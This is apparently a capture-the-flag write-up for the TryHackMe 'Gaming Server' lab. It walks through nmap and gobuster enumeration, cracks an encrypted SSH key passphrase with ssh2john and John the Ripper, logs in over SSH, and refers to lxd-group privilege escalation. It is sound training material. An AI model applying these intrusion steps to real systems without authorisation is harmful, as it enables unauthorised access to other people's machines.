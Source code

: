 ```yaml
---
title: Tryhackme - Gaming Server 
category: writeup
tags: tryhackme
---
```


# Summary

Gaming server is a easy machine which requires some basic enumeration to find a username in the page's source and doing some dirbusting to find a encrypted ssh-key and a password list which is used to crack the passphrase for the ssh-key. To escalate privileges we abuse the lxd group permissions to mount the host file system inside the container.

# Enumeration

## NMAP

Running a NMAP scan reveals the following:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
```

## Port 80

Checking port 80 reveals a page with a lot of dummy text. 

Checking the web page source reveals a interesting comment that says:

> john, please add some actual content to the site! lorem ipsum is horrible to look at

This could be a potential username that can be used later.

Fuzzing the directories using gobuster reveals the following:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.35.125/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/21 21:38:43 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2020/09/21 21:41:03 Finished
===============================================================
```

Checking the uploads directory reveals a word list which possibly contains a list that we might use for doing some sort of bruteforcing.

Checking secret reveals a encrypted ssh key and we most likely would need to use the wordlist to crack the passphrase.

![WGET](/assets/img/gamingserver/wget.png)

However, in order to crack a ssh-key we need to convert it to a form than johntheripper will be able to understand. In order to do this we use a python script named `[ssh2john.py](http://ssh2john.py)` which comes with the johntheripper package.

```bash
/usr/share/john/ssh2john.py secretKey > ssh-hash
john --wordlist=/usr/share/wordlists/rockyou.txt ssh-hash
```

![Crack](/assets/img/gamingserver/crack.png)

John returns the password letmein.

## SSH

Logging in with ssh with the username `john` we found earlier and passphrase for the key `letmein` we are able to log in.

```bash
ssh -i secretKey john@10.10.35.125
```

## Privilege Escalation

Checking the current groups that the user is a part of reveals an interesting group `lxc` this group from past experience allows privilege escalation commonly done by mounting the rootfs inside a container and then interacting with the container and getting access to all the fs.

Following the privilege escalation steps in this article allows us to use a lxd container to mount the host machines rootfs inside the container giving us access to the root flag.

[Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)
